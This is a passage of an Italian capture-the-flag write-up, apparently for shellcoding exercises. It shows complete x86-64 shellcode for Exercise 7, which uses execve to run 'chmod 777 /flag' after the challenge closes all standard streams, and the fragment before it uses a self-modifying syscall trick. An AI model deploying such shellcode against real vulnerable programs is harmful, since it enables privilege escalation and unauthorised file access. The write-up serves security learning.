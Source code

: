 ```
    inc byte ptr [rip]
    .byte 0x0e, 0x05

flag:
    .string "/flag"

```

## Esercizio 7
Eseguendo l'esercizio ci da queste indicazioni 
"This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need
to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.

This challenge is about to close stderr, which means that you will not be able to get use file descriptor 2 for output.

This challenge is about to close stdout, which means that you will not be able to get use file descriptor 1 for output.
You will see no further output, and will need to figure out an alternate way of communicating data back to yourself."
Questo vuol dire che non avremo nessun modo per trasmettere i dati in output, bisogna trovare un altro modo per arrivare alla flag,
il metodo utilizzato è quallo di utilizzare la syscall execve per eseguire dalla shell il comando `chmod 777 /flag` così poi da eseguire un semplice `cat /flag` dal terminale
```
.intel_syntax noprefix
.global _start

_start:

    lea rdi, [rip + shell]
    push 0
    lea rax, [rip + flag]
    push rax
    lea rax, [rip + permission]
    push rax
    lea rax, [rip + chmod]
    push rax
    lea rsi, [rsp]
    xor rdx, rdx
    mov rax, 59
    syscall

shell:
    .string "/bin/sh"

chmod:
    .string "/bin/chmod"

permission:
    .string "777"

flag:
    .string "/flag"

```
* note: 
1. `rdx` è stato azzerato perchè non servono le variabili d'ambiente.
2. su `rsi` inseriamo i parametri come se fosse un comando della shell `chmod 777 /flag` solamente che i parametri devono essere inseriti al contrario perchè nella stack, inoltre all'inizio dobbiamo mettere un `push 0` perchè serve a indicare il terminatore degli argomenti. Terminato di caricarli nella stack assegnamo a `rsi` il registro della stack